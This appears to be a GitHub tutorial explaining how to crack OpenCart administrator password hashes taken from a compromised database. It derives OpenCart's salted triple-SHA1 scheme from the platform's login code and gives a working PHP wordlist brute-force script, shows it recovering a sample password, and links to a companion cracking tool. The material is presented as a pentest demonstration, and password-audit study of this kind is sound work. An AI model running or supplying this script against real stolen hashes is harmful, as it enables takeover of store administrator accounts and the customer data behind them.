 # Brute Force Attack In OpenCart Stored Passwords.
In this little tutorial I demonstrate how to perform a brute force attack based in word lists on passwords stored in OpenCart application databases.


## SCENERY
- You have access to the database of an application that uses OpenCart.
- You query the Password Hash and Salt in the administrator table and you get the following result:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEM
You are not familiar with the OpenCart password encryption system, so you will try to unmask this `hash` with brute force using services that are based on simple SHA1 encryption.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlist_demo.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```


The problem is that `$password` is not simply a string encrypted with SHA1, or MD5, or SHA1 (MD5) ... Anyway, a usual brute-force script based on these encryption templates would hardly generate a` hash` equal to `hash` that you want to 'unmask'.

## SOLUCTION
We need to create our own script that will search the hash string in the correct form.
And what would be the correct way?

IF WE CHECK THE PHP FILE THAT MAKES ADMIN AUTHENTICATION ON THE OPENCART
`\opencart\system\library\user.php`

WE FIND THE FOLLOWING CODE:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

INTERESTING PART:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTING THE CODE WE HAVE:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: I ignored this part `OR password = '" . $this->db->escape(md5($password)) . "')` since we tested our hash and we already know that it is SHA1, right?


## Now we know how to encrypt the strings of our wordlist to compare with the hash found in the admin table.

A simple php script to test brute force on OpenCart passwords would look like this:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlist_demo.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
PASSWORD: 12345
```

## Final considerations
- the attack I did was using word list, but you can implement for other tests. Use your imagination.
- If any word is wrong do not blame me, Blame the translator. I am Brazilian.

## Fonts
- myself

## Test my tool based on this article
[opencript - OPENCART PASSWORD DECRYPTOR BASED ON WORD LIST](https://github.com/pabloverlly/open-cript)

###### _NEED ME? pablov3rlly[at]gmail.com_
